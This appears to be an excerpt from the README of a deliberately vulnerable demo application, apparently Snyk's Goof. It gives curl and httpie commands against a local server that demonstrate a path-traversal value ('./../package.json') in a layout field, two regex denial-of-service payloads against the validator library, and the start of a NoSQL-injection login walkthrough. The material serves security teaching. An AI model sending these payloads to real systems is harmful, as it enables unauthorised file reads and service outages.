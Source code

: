 ```sh
curl -X 'POST' --cookie c.txt --cookie-jar c.txt -H 'Content-Type: application/json' --data-binary '{"username": "admin@snyk.io", "password": "SuperSecretPassword"}' 'http://localhost:3001/login'
```

```sh
curl -X 'POST' --cookie c.txt --cookie-jar c.txt -H 'Content-Type: application/json' --data-binary '{"email": "admin@snyk.io", "firstname": "admin", "lastname": "admin", "country": "IL", "phone": "+972551234123",  "layout": "./../package.json"}' 'http://localhost:3001/account_details'
```

#### ``Actually, there's even another vulnerability in this code. The `validator` library that we use has several known regular expression denial of service vulnerabilities. One of them, is associated with the email regex, which if validated with the `{allow_display_name: true}` option then we can trigger a denial of service for this route:``

```sh
curl -X 'POST' -H 'Content-Type: application/json' --data-binary "{\"email\": \"`seq -s "" -f "<" 100000`\"}" 'http://localhost:3001/account_details'
```

#### ``The `validator.rtrim()` sanitizer is also vulnerable, and we can use this to create a similar denial of service attack:``

```sh
curl -X 'POST' -H 'Content-Type: application/json' --data-binary "{\"email\": \"someone@example.com\", \"country\": \"nop\", \"phone\": \"0501234123\", \"lastname\": \"nop\", \"firstname\": \"`node -e 'console.log(" ".repeat(100000) + "!")'`\"}" 'http://localhost:3001/account_details'
```

### `NoSQL injection`
#### ``A POST request to `/login` will allow for authentication and signing-in to the system as an administrator user. It works by exposing `loginHandler` as a controller in `routes/index.js` and uses a MongoDB database and the `User.find()` query to look up the user's details (email as a username and password). One issue is that it indeed stores passwords in plaintext and not hashing them. However, there are other issues in play here. We can send a request with an incorrect password to see that we get a failed attempt.``
```sh
echo '{"username":"admin@snyk.io", "password":"WrongPassword"}' | http --json $GOOF_HOST/login -v
```

#### ``And another request, as denoted with the following JSON request to sign-in as the admin user works as expected:``
```sh
echo '{"username":"admin@snyk.io", "password":"SuperSecretPassword"}' | http --json $GOOF_HOST/login -v
```
